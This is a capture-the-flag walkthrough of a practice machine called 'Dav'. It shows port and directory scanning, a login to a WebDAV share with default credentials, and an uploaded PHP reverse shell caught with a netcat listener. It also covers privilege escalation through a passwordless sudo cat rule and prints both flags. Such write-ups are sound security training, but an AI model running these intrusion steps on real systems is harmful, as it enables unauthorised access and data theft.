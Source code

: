 # Dav

## Description

boot2root machine for FIT and bsides guatemala CTF

## Initial Scan

Let's start with an Nmap scan. The scan reveals one open port:
* 80 http

~~~
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

## Web

We have no choice but heading to the webpage. The main page is the default page for Apache2. Didn't find anything useful in the source code and there is no robots.txt, so I ran a `gobuster` on it:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Dav]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/                        
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.57.102/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/21 11:47:30 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/webdav               (Status: 401) [Size: 459]
~~~

The result reveals a directory called `/webdav`. This page requiers authorization. I searched for `webdav default credential` and found the defaults in [this](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) website. After trying them, I got through.

* user: wampp
* pass: xampp

## Reverse Shell

I used a tool called `cadaver` to make things easier. You just simply run it with the URL infront of it and after entering the creds you can upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). (Don't forget to change the IP to yours.):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Dav/files]
└─$ cadaver http://$IP/webdav                                    
Authentication required for webdav on server `10.10.57.102':
Username: wampp
Password:dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> exit
~~~

Now we start a listener and then call the shell from the `/webdav` directory. After gainning the shell I spawned a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Dav/files]
└─$ rlwrap nc -lvnp 4444                    
listening on [any] 4444 ...
connect to [10.9.3.156] from (UNKNOWN) [10.10.57.102] 49998
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:00:07 up 30 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$
~~~

## User Flag

Now we can start looking for the user flag. You can find the user flag in `/home/merlin`:

~~~
www-data@ubuntu:/$ cd /home/merlin
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
~~~

user.txt: `449b40fe93f78a938523b7e4dcd66d2a`

## Root Flag

Now we need to obtain the root flag. I ran `sudo -l` to check my permissions and I can run `cat` with sudo and no password:

~~~
www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
~~~

We can use this permission to read the files that we don't have the permission to. We know the name of the root flag, so we can read it in `/root`:

~~~
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
~~~

root.txt: `101101ddc16b0cdf65ba0b8a7af7afa5`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun.

Have a good one! : )